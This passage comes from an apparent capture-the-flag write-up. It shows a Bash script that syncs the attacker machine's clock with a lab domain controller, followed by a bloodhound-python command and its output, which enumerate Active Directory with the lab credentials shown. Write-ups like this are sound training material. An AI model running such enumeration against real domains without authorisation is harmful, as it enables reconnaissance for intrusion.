 <p class="indent-paragraph">
For successful Kerberos authentication and to avoid clock skew issues during enumeration, the attacker system's local time must be closely synchronized with the Domain Controller. This was achieved using a custom Bash script that leverages <code>ntpdate</code> to align the machine’s time with the DC. Proper time sync ensures seamless interaction with Kerberos-based services and prevents authentication failures during tools execution like <code>BloodHound</code><span class="codefix">.</span>
</p>

```
~$ nano sync_time_from_dc.sh

#!/bin/bash

# Prompt for the IP address of the Domain Controller
read -p "[?] Enter the IP address of the Domain Controller: " DC_IP

# Validate input
if [[ -z "$DC_IP" ]]; then
  echo "[-] No IP address provided. Exiting."
  exit 1
fi

echo "[*] Synchronizing local time with Domain Controller ($DC_IP)..."

# Execute ntpdate with root privileges to sync clock
if sudo ntpdate "$DC_IP"; then
  echo "[+] Local system time successfully synchronized with DC ($DC_IP)."
else
  echo "[-] Failed to synchronize time. Check connectivity or sudo permissions."
  exit 1
fi

~$ ./sync_time_from_dc.sh

[?] Enter the IP address of the Domain Controller: <IP>
[*] Synchronizing local time with Domain Controller (<IP>)...
2025-07-22 02:24:35.875681 (-0300) +28800.974398 +/- 0.066239 <IP> s1 no-leap
CLOCK: time stepped by 28800.974398
[+] Local system time successfully synchronized with DC (<IP>).
```


<p class="indent-paragraph">
With proper domain configuration in place, the BloodHound data collection process was initiated using the <code>bloodhound-python</code> collector directly from the attacker’s machine. The user <code>sara.b</code> was authenticated via NTLM after a Kerberos TGT failure caused by clock skew. Despite this fallback, enumeration proceeded successfully, identifying 1 domain, 3 computers, 19 users, 58 groups, and other relevant Active Directory objects within seconds. This dataset was later used for relationship mapping and privilege escalation path discovery within the BloodHound interface.
</p>

```
~$ bloodhound-python -u 'sara.b' -p 'Blink182' -d certificate.htb -dc dc01.certificate.htb -c All -ns <IP>

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certificate.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 19 users
INFO: Found 58 groups
INFO: Found 2 gpos
```